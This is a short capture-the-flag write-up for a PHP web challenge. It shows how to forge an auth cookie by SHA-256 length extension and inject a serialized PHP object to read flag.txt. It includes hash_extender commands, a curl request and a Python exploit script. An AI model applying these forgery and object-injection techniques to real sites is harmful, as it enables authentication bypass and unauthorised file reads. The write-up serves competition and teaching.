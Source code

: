 This is some difficult

First, the auth code is vulnerable to a length extension attack. Also, passing user input to unserialize is dangerous.

Begin by creation `test.php` with the following contents:

```php
<?php
include("config.php");
include("classes.php");
$f = new File("flag.txt");
echo serialize($f);
```

Take that, and reverse it, and use length extension to append that.

Next, use the guide here: [https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack?utm_source=rss&utm_medium=rss&utm_campaign=plaidctf-web-150-mtpox-hash-extension-attack](here), to exploit the length extension. 

```
./hash_extender --data ';0:b' -s 25379ccdaefc067c701659406dad068fe5dacefa53a45a9fdf402b8942c247c2 --append '};"txt.galf":8:s;"emanelif":8:s{:1:"eliF":4:O' --secret-min=32 --secret-max=32 --out-data-format=html

curl -b "auth=O%3a4%3a%22File%22%3a1%3a%7bs%3a8%3a%22filename%22%3bs%3a8%3a%22flag%2etxt%22%3b%7d+%01%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; sig=76eefb902017f810c3c1afd05952f507017b9c58a1b6406422dbb31df0188e9b" http://web2015.icec.tf/giga/files.php

./hash_extender --data ';0:b' -s 25379ccdaefc067c701659406dad068fe5dacefa53a45a9fdf402b8942c247c2 --append '};"txt.galf":8:s;"emanelif":8:s{:1:"eliF":4:O' --secret-min=32 --secret-max=32 --out-data-format=html
```

```
import hlextend
import requests
import subprocess

def php_urlencode(s):
    '''Return php urlencoded string'''
    print "ENCODE: " + s
    s = s.replace("\x00", "\0")
    encode_php = "<?php $text = <<<EOD\n{}\nEOD;\necho urlencode($text);\n?>".format(s)

    with open('encode_me.php', 'w') as f:
        f.write(encode_php)

    output = subprocess.check_output('php encode_me.php', shell=True)
    return output

url = 'http://web2015.icec.tf/giga/files.php'
original_hash = '25379ccdaefc067c701659406dad068fe5dacefa53a45a9fdf402b8942c247c2'
original_data = ';0:b'
appended_data = "".join(reversed('O:4:"File":1:{s:8:"filename";s:8:"flag.txt";}'))
key_length = 32

# Get our new hash for our new data
sha = hlextend.new('sha256')
cookie = sha.extend(appended_data, original_data, key_length, original_hash, raw=True)
cookie_hash = sha.hexdigest()
cookie = "".join(reversed(cookie))

# Send a request with our new cookie to verify our method works
output = php_urlencode(cookie)
cookies = {'sig': cookie_hash,
           'auth': output}
print requests.get(url, cookies=cookies).text
```


resources: https://github.com/bwall/HashPump
https://github.com/ctfs/write-ups-2014/tree/master/plaid-ctf-2014/mtpox
https://github.com/thebarbershopper/ctf-writeups/tree/master/pico-ctf-2014
https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack
https://github.com/stephenbradshaw/hlextend